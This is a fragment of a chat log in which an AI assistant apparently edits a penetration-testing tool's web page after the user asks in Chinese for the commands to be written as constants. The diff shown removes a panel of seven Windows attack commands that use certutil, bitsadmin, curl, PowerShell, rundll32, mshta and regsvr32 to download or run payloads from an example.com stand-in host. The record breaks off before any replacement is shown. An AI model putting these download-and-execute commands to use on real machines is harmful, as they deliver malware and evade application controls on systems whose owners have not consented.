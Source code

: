 _**User**_

别搞选项了，直接常量写出来就好了

---

_**Assistant**_

明白了,让我们直接把常用命令列表以最简单的方式展示出来:

---

```diff
              <div class="tools">
                              <div class="command-list">
-                                 <h3>常用渗透命令</h3>
                                  <div class="command-grid">
-                                     <div class="command-item" data-command="certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe">
-                                         <div class="command-title">远程下载文件 (certutil)</div>
-                                         <div class="command-code">certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
-                                     </div>
-                                     <div class="command-item" data-command="powershell -c &quot;(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\Windows\Temp\payload.exe')&quot;">
-                                         <div class="command-title">远程下载文件 (PowerShell)</div>
-                                         <div class="command-code">powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\Windows\Temp\payload.exe')"</div>
-                                     </div>
-                                     <div class="command-item" data-command="bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe">
-                                         <div class="command-title">远程下载文件 (bitsadmin)</div>
-                                         <div class="command-code">bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
-                                     </div>
-                                     <div class="command-item" data-command="curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe">
-                                         <div class="command-title">远程下载文件 (curl)</div>
-                                         <div class="command-code">curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe</div>
-                                     </div>
-                                     <div class="command-item" data-command="rundll32.exe javascript:&quot;\..\mshtml,RunHTMLApplication &quot;;document.write();new%20ActiveXObject(&quot;WScript.Shell&quot;).Run(&quot;powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot;);">
-                                         <div class="command-title">执行远程PowerShell (rundll32)</div>
-                                         <div class="command-code">rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')");</div>
-                                     </div>
-                                     <div class="command-item" data-command="mshta vbscript:Close(Execute(&quot;GetObject(\&quot;script:http://example.com/payload.sct\&quot;)&quot;))">
-                                         <div class="command-title">执行远程脚本 (mshta)</div>
-                                         <div class="command-code">mshta vbscript:Close(Execute("GetObject(\"script:http://example.com/payload.sct\")"));</div>
-                                     </div>
-                                     <div class="command-item" data-command="regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll">
-                                         <div class="command-title">执行远程脚本 (regsvr32)</div>
-                                         <div class="command-code">regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll</div>
-                                     </div>
```